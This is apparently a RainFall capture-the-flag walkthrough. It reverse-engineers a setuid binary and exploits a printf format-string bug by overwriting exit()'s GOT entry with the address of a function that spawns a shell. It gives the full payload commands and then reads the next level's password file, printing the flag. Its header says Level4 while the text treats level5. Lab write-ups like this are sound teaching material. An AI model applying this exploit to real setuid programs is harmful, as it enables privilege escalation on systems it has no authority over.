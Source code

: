 # Level4

As in level3, we can find an executable waiting for an input, print it and quit after press enter
```
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
level4@RainFall:~$ ./level4
bla
bla
level4@RainFall:~$
```
After analyze it with radare2 (please refer to [level1](https://github.com/maxisimo/42-RainFall/blob/main/level1/walkthrough.md) if you want more details on the steps to follow)  
We can see that the `main()` function call a function named `n()` but there is also a non-called `o()` function.  
- main() :
```
[0x080483f0]> s main
[0x08048504]> pdda
    ; assembly                           | /* r2dec pseudo code output */
                                         | /* level5 @ 0x8048504 */
                                         | #include <stdint.h>
                                         |  
    ; (fcn) main ()                      | int32_t main (void) {
    0x08048504 push ebp                  |     
    0x08048505 mov ebp, esp              |
    0x08048507 and esp, 0xfffffff0       |
    0x0804850a call 0x80484c2            |     n ();
    0x0804850f leave                     |
    0x08048510 ret                       |
                                         | }
[0x08048504]>
```
- n() :
```
[0x08048504]> s sym.n
[0x080484c2]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level5 @ 0x80484c2 */
                                                 | #include <stdint.h>
                                                 |
    ; (fcn) sym.n ()                             | int32_t n (void) {
                                                 |     char * format;
                                                 |     int32_t size;
                                                 |     FILE * stream;
    0x080484c2 push ebp                          |
    0x080484c3 mov ebp, esp                      |
    0x080484c5 sub esp, 0x218                    |
    0x080484cb mov eax, dword [0x8049848]        |     eax = stdin;
    0x080484d0 mov dword [esp + 8], eax          |     *((esp + 8)) = eax;
    0x080484d4 mov dword [esp + 4], 0x200        |     *((esp + 4)) = 0x200;
    0x080484dc lea eax, [ebp - 0x208]            |     eax = ebp - 0x208;
    0x080484e2 mov dword [esp], eax              |
    0x080484e5 call 0x80483a0                    |     fgets (ebp);
    0x080484ea lea eax, [ebp - 0x208]            |     eax = ebp - 0x208;
    0x080484f0 mov dword [esp], eax              |
    0x080484f3 call 0x8048380                    |     printf (eax);
    0x080484f8 mov dword [esp], 1                |
    0x080484ff call 0x80483d0                    |     return exit (1);
                                                 | }
[0x080484c2]>
```
- o() :
```
[0x080484c2]> s sym.o
[0x080484a4]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level5 @ 0x80484a4 */
                                                 | #include <stdint.h>
                                                 |  
    ; (fcn) sym.o ()                             | void o (void) {
    0x080484a4 push ebp                          |     
    0x080484a5 mov ebp, esp                      |     
    0x080484a7 sub esp, 0x18                     |
    0x080484aa mov dword [esp], 0x80485f0        |
    0x080484b1 call 0x80483b0                    |     system ("/bin/sh");
    0x080484b6 mov dword [esp], 1                |
    0x080484bd call 0x8048390                    |     return exit (1);
                                                 | }
[0x080484a4]>
```
The `main()` only call `n()`, not very interesting so we can skip it.  
We can see a call to `fgets()`, in `n()`, wich is protect against buffer overflow attack.
```
    0x080484e5 call 0x80483a0                    |     fgets (ebp);
```
After that we can see a call to `printf()` function wich is vulnerable to format string exploit!
```
    0x080484f3 call 0x8048380                    |     printf (eax);
```
Then, the non-called function `o()` launch a shell via a call to `system()`.
```
    0x080484b1 call 0x80483b0                    |     system ("/bin/sh");
```
We need to manipulate `printf()` function into calling `o()` using a format string attack.  
Our main concern here is that both functions `n()` and `o()` never returns. It exits directly. Even if we overwrite something with format string vulnerability, we may not be able to use that.  
We can replace the address of exit in the GOT with the address of "o", for calling it instead of exit.  
The GOT (Global Offset Table) is a table of addresses in the data section, it contains the shared library functions addresses.  
Also GOT is writable and whenever the function `exit()` is called (GOT entry of the function is looked up first) the program will jump to that address.  
So if we replace the address of `exit()` in the GOT with the address of `o()` (with format strings), whenever that function will be called, the program will go to the modified GOT entry.  
First : find the address of `exit()` in the GOT and the address of the `o()` function.  
- exit():
```
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
level5@RainFall:~$
```
- o():
```
[0x080483f0]> afl
[...]
0x080484a4    1 30           sym.o
[0x080483f0]>
```
Now we have the address of `exit()`: 0x8049838 and the address of `o()`: 0x080484a4.  
We have to to print the memory until we reach the address of `exit()` :
```
level5@RainFall:~$ python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit
level5@RainFall:~$ cat /tmp/exploit | ./level5
aaaa 200 b7fd1ac0 b7ff37d0 61616161 25207825 78252078 20782520 25207825 78252078 20782520
level5@RainFall:~$
```
The address of `exit()` is at the 4th position (`61616161`).  
Finally our final format string attack will look like :  
- exit() GOT address (in little endian) : `\x38\x98\x04\x08` (4 bytes)
- o() address in decimal : `134513824` (sub 4 bytes cause of the exit() address in GOT) with modifier `%d` + modifier `%n`
*It will be quite long cause of the big value in decimal of o() address*
```
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit
level5@RainFall:~$ cat /tmp/exploit - | ./level5
                                                                                                                                                                                                              512
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
^C
level5@RainFall:~$ su level6
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
level6@RainFall:~$
```
Level5 passed!
